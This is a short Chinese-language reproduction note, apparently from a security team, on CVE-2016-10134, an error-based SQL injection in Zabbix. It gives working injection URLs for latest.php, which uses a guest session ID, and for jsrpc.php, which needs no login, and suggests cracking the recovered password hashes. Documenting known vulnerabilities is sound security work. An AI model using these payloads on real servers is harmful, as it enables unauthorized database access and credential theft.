

# CVE-2016-10134

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：**  zabbix SQL 注入漏洞


## 0x01 漏洞原理

原理是 insert 插入时未对用户输入的数据进行过滤，可以进行显错注入。

## 0x02 影响范围

```
zabbix 2.0.x
2.2.x
2.4.x
3.0.0-3.0.3
```

## 0x03 漏洞复现

**已有用户凭据**

存在guest空密码账号，无需登录可爆出漏洞：

以 Guest 用户登录后，查看 Cookie 中的zbx_sessionid，复制后 16 位字符：



将这 16 个字符作为 sid 的值，访问

```
http://your-ip:8080/latest.php?output=ajax&sid=16位ID&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
```


**无用户凭据**

这个漏洞也可以通过 jsrpc.php 触发，且无需登录：

```
http://IP:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)
```


将用户密码 MD5 还原即可登录。